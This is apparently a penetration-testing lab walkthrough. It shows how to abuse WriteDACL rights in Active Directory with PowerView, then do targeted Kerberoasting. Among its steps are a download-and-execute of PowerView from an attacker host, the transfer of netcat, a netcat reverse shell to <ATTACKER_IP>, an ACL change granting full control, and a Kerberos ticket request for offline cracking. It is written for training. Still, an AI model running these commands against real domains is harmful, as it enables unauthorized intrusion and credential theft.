

# 3.3.3 DACL Abuse WriteDACL PowerShell

Our next target is the **harley.quenn** user account. BloodHound shows that the compromised **bruce.wayne** account has **WriteDACL** permission over **harley.quenn**, allowing us to modify the target user's ACL and grant additional permissions for further abuse.

<figure><figcaption></figcaption></figure>

***

## Abuse WriteDACL and Perform Targeted Kerberoasting

In this section, we will use the existing **http\_svc** session to demonstrate how a PowerShell Credential Object can be used to perform Active Directory operations as another compromised user.

BloodHound shows that **bruce.wayne** has **WriteDACL** permission over the **harley.quenn** user account. Although the current shell is running as **http\_svc**, we can create a Credential Object for **bruce.wayne** and use those credentials with PowerView commands.

### Verify the Current User

**Purpose:** Confirm the identity of the user associated with the current Evil-WinRM session.

```ps1
whoami
```

The output confirms that the current session is running as the **http\_svc** account.

<figure><figcaption></figcaption></figure>

### Import PowerView into Memory

**Purpose:** Download and load PowerView directly into the current PowerShell session. This allows PowerView functions to be used without manually transferring the script to the target machine.

```ps1
iex (iwr -UseBasicParsing http://<ATTACKER_IP>/PowerView.ps1)
```

<figure><figcaption></figcaption></figure>

#### Create a Credential Object for the Controlled User

**Purpose:** Since the current session is running as **http\_svc**, but the WriteDACL permission belongs to **bruce.wayne**, create a PowerShell Credential Object containing the credentials of **bruce.wayne**.

```ps1
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN.NAME>\<CONTROLLED_USER>', $SecPassword)

```

For this attack path, `<CONTROLLED_USER>` represents **bruce.wayne**.

The `$Cred` object can now be passed to PowerView commands, allowing LDAP operations to be performed using the privileges of **bruce.wayne**, while the current Evil-WinRM session continues to run as **http\_svc**.

<figure><figcaption></figcaption></figure>

### Attempt to Modify the Target User's ACL

The following PowerView command can be used to modify the DACL of the target user and grant additional permissions to the controlled account:

```ps1
Add-DomainObjectAcl -Credential $Cred -TargetIdentity '<TARGET_USER>' -PrincipalIdentity '<CONTROLLED_USER>' -Rights All
```

During testing from the Evil-WinRM PowerShell session, the following error may occur:

```
Exception calling "FindAll" with "0" argument(s):
"Unknown error (0x80005000)"
Unable to resolve principal: bruce.wayne
```

<figure><figcaption></figcaption></figure>

#### Why Does This Error Occur?

The error is raised while PowerView is attempting to search Active Directory and resolve the supplied principal. The `0x80005000` COM exception commonly indicates that the underlying ADSI/LDAP search operation could not correctly access or resolve the directory object in the current execution context.

In this case, PowerView fails while resolving **bruce.wayne** and reports:

```
Unable to resolve principal: bruce.wayne
```

This does not necessarily mean that the **WriteDACL** permission is invalid. The failure occurs before the ACL modification is completed, during PowerView's object lookup and principal-resolution process.

Possible causes include problems with the current PowerShell or WinRM execution context, domain discovery, DNS resolution, LDAP binding, or PowerView's handling of alternate credentials during directory searches.

During this lab, executing the same workflow from a fresh reverse-shell PowerShell session resolved the issue.

### Transfer Netcat to the Target Machine

Start an HTTP server on the Linux attacker machine from the directory containing `nc.exe`:

```
python3 -m http.server 8081
```

<figure><figcaption></figcaption></figure>

From the existing Evil-WinRM session, download the Netcat executable:

```bash
wget http://<ATTACKER_IP>:8081/nc.exe -OutFile nc64.exe
```

<figure><figcaption></figcaption></figure>

#### Start a Listener on the Attacker Machine

Open another terminal on the attacker machine and start a Netcat listener:

```bash
rlwrap nc -lnvp 4444
```

<figure><figcaption></figcaption></figure>

#### Establish the Reverse Shell

From the target machine, execute Netcat and connect back to the attacker's listener:

```bash
.\nc64.exe -e cmd.exe <ATTACKER_IP> 4444
```

After the reverse connection is established, start PowerShell from the command shell:

```cmd
powershell
```

This provides a new PowerShell execution context for continuing the PowerView operations.

<figure><figcaption></figcaption></figure>

#### Import PowerView in the New Session

Import PowerView again in the reverse-shell PowerShell session:

```ps1
iex (iwr -UseBasicParsing http://<ATTACKER_IP>:<PORT>/PowerView.ps1)
```

#### Recreate the Credential Object

Create the credential object for the **bruce.wayne** account again:

```ps1
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN.NAME>\<CONTROLLED_USER>', $SecPassword)

```

Then verify that PowerView can resolve both users:

```ps1
Get-DomainUser -Identity 'bruce.wayne' -Credential $Cred
```

```ps1
Get-DomainUser -Identity 'harley.quinn' -Credential $Cred
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Grant GenericAll Permission Over the Target User

**Purpose:** Since **bruce.wayne** has **WriteDACL** permission over **harley.quenn**, the account can modify the target user's DACL. This command grants **bruce.wayne** GenericAll rights over the target user object.

```ps1
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'harley.quinn' -PrincipalIdentity 'bruce.wayne' -Rights All
```

After successful execution, **bruce.wayne** has broad control over the **harley.quenn** user object.

<figure><figcaption></figcaption></figure>

### Perform a Targeted Kerberoasting Attack

After obtaining sufficient control over the target user object, one possible abuse technique is **Targeted Kerberoasting**. This technique involves assigning a temporary Service Principal Name (SPN) to the target user and then requesting a Kerberos service ticket for offline password cracking.

#### Assign a Temporary SPN

**Purpose:** This PowerView command modifies the `servicePrincipalName` attribute of the target user. The controlled account can perform this modification because it now has sufficient permissions over the target object.

```ps1
Set-DomainObject -Credential $Cred -Identity '<TARGET_USER>' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

<figure><figcaption></figcaption></figure>

#### Request the Kerberos Service Ticket

From the Linux attacker machine, request a service ticket for the newly configured SPN:

```bash
impacket-GetUserSPNs '<DOMAIN.NAME>/<CONTROLLED_USER>:<PASSWORD>' -request
```

<figure><figcaption></figcaption></figure>

If the attack succeeds, the command returns a Kerberos TGS hash for the targeted account. The returned value is a **Kerberos service-ticket hash**, not directly an NTLM hash. It can be subjected to offline password recovery attempts during an authorized assessment.

<figure><figcaption></figcaption></figure>
